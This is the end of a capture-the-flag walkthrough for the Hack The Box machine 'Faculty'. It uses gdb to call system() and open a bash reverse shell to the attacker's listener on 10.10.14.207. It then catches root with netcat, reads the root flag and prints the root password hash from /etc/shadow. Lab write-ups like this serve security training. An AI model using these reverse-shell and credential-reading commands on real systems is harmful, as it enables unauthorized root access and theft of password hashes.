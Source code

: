 ```sh
(gdb) call (void)system("/usr/bin/bash -c '/usr/bin/bash -i >& /dev/tcp/10.10.14.207/1234 0>&1'")
[Detaching after vfork from child process 47309]
```

## Root Flag

Switch to Kali to see we are now root:

```sh
┌──(root㉿kali)-[~/htb/faculty]
└─# nc -nlvp 1234                                     
listening on [any] 1234 ...
connect to [10.10.14.207] from (UNKNOWN) [10.10.11.169] 55016
root@faculty:/#
```

Let's grab the root flag to finish the box:

```sh
root@faculty:/# cat /root/root.txt
f7a31c417625801904d8647f3db34466

root@faculty:/# cat /etc/shadow | grep root
root:$6$CiEa.wxtUKxG5q21$ED3MTE6ehz0j0q4kRQfK4bnLQFLZDrG9skIPsc0p2/X3JSBHFWjRWAZwEdUpqON6UqZOXvme7.1wHzNCVHqk9/:18559:0:99999:7:::
```

And that's another box done. I hope you enjoyed my walkthrough and maybe learned something along the way. See you next time.
